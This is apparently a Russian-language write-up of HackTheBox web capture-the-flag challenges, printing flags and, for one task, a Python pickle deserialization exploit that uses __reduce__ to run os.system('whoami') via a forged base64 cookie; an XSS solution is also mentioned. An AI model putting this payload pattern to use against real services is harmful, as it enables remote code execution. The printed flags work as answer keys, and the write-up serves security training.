 Просто смотрим что на странице, там же лежит флаг HTB{wh3n_th3_d3bugg3r_turns_4g41nst_th3_d3bugg33}
8. Добро пожаловать на Full Stack Conf, узнайте о будущем JavaScript вместе с отраслевыми профессионалами и откройте для себя новые методы продвижения по карьерной лестнице в качестве веб-разработчика. 
Но будьте очень осторожны с формой обновления, мы ничего не дезинфицируем, и администратор входит в систему и регулярно проверяет электронную почту, не пытайтесь делать что-то смешное !! 
По подсказке со страницы вводим просто нужное значение и получаем уведомление-флаг HTB{p0p..p0p..p0p...alert(1337)}
9. Смотри, Морти, смотри! Я превратил себя в веб-сайт Морти, я веб-сайт Рик, детка!! 
Но не играй с некоторыми из этих сывороток против маринада, которые я храню в безопасном месте, 
если я вернусь к человеку, мне придется пойти на семейную терапию, а нам не нужен этот Морти. 
На сайте дана подсказка о том что таск связан с десереализация
В консоли разработчика мы можем увидеть cookie, это base 64

![](рик1.JPG)

получаем объект pickle

![](рик2.JPG)

получили ошибку
Выполняем скрипт
import pickle
from base64 import b64decode

class anti_pickle_serum:
    def __init__(self):
        pass

plan_b = "KGRwMApTJ3NlcnVtJwpwMQpjY29weV9yZWcKX3JlY29uc3RydWN0b3IKcDIKKGNfX21ha
W5fXwphbnRpX3BpY2tsZV9zZXJ1bQpwMwpjX19idWlsdGluX18Kb2JqZWN0CnA0Ck50cDU
KUnA2CnMu"

serum = pickle.loads(b64decode(plan_b))
print(serum)

И получаем результат

python3 depickle.py
{'serum': <__main__.anti_pickle_serum object at 0x7f250bb68970>}

Далее, выполняем эксплуатацию через reduce:

import pickle
from base64 import b64encode
import os

class anti_pickle_serum:
    def __reduce__(self):
        cmd = ('whoami',)
        return os.system, cmd

if __name__ == '__main__':
    pickled = pickle.dumps({"serum":anti_pickle_serum()})
    print((b64encode(pickled)))
